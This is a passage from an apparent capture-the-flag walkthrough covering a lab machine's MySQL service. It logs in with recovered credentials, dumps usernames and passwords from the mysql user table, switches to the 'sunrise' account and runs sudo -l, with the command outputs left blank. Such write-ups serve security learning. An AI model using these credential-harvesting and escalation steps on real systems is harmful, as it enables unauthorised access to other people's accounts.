






6.2 MySQL Service
We also saw that there's a MySQL port open.
a) Let's login with “weborf” credentials.
Username: “weborf”
Password: “iheartrainbows44”
$ mysql -u weborf -p
Output:

b) Show Databases
MariaDB [
(
none
)
]> show databases
;
Output:

c) Enumerate the “mysql” database.
MariaDB [
(
none
)
]> use mysql
;
Output:
e) Look at the tables inside the database.
MariaDB [mysql]> show tables
;
Output:

f) Look at “user” table structure.
MariaDB [mysql]> describe user
;
Output:

g) Let see the data if these fields.
MariaDB [mysql]>
select
User, Password from user
;
Output:

We got all usernames and passwords but root password is encrypted. So we have “sunrise” user data.
User: “sunrise”
Password: “thefutureissobrightigottawearshades”
h) Log in as the user sunrise with the password that we found. Then we'll see which commands can be run.
$
su
sunrise
$
sudo
-l
Output:

Index